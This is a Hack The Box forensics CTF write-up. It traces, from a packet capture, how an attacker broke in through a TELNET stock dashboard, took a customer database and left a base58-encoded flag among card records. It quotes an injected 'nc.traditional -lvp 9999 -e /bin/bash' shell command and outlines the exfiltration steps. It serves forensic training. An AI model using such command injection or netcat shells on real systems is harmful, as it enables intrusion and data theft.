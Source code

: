 > We have got informed that a hacker managed to get into our internal network
> after pivoiting through the web platform that runs in public internet. He
> managed to bypass our small product stocks logging platform and then he got our
> costumer database file. We believe that only one of our costumers was targeted.
> Can you find out who the customer was?

> Author: **[butrintkomoni][author-profile]**

## The dump

Wireshark can summarize the dump in one click on the options from the "statistics" menu.

### Protocol breakdown

```
- ARP:
  - 16 ARP packets
- DATA:
  - 61 packets
  - reverse shell over TCP
- DNS:
  - 6 packets over UDP & 5 over TCP
  - domains: acid
- HTTP:
  - 36 packets
  - pages / requests:
    - / => 
    - /sdk => 
    - /about =>
    - **/costumers.sql => most of the traffic volume**
- ICMP:
  - 14 packets
- IPP:
  - 1 malformed packed
- TCP:
  - 2828 packets in total
  - 2000 packets or more
- MySQL:
  - 2 packets
  - standard greeting
- NTP:
  - 4 packets
- PGSQL:
  - 2 packets
  - error
- SSH:
  - 1 packet
- TELNET:
  - 46 packets
  - login attempts
  - dashboard with stock reports
  - exploit
```

### Endpoints

- 10.0.2.3 is the client server
- 10.0.2.15 is the attacker
- 129.70.132.36 is a NTP time server

## The attack scenario

Scrolling through the network traces, the path taken by the attacker is clear:

- the attacker connected on the ethernet network
- SYN scan of roughly a 1000 ports (1010 RST packets)
- login attempts via TELNET
- exploit the TELNET dashboard callback: `Type exit to exit the program: nc.traditional -lvp 9999 -e /bin/bash`
- launch a reverse shell to the port 9999
- copy the customers database over /tmp
- start a python server on port 9998, from the /tmp directory
- GET the data over HTTP
- rm the database from the server

## The stolen data

Scrolling down, we notice one record doesn't follow the format:

```
American Express,378467610293297
American Express,NVCijF7n6peM7a7yLYPZrPgHmWUHi97LCAzXxSEUraKme
American Express,341025508735219
```

"Clearly base64", except it's base58!

Turns out base58 is designed for readability, and removes:
- ambiguous characters like O, 0, I and l
- special characters altogether

Anyway, there's no standard CLI tool for base58 but [CyberChef][cyberchef-base58] delivers:

> `HTB{DonTRuNAsRoOt!MESsEdUpMarket}`

[author-profile]: https://app.hackthebox.com/users/41604
[cyberchef-base58]: https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',false)&input=TlZDaWpGN242cGVNN2E3eUxZUFpyUGdIbVdVSGk5N0xDQXpYeFNFVXJhS21l
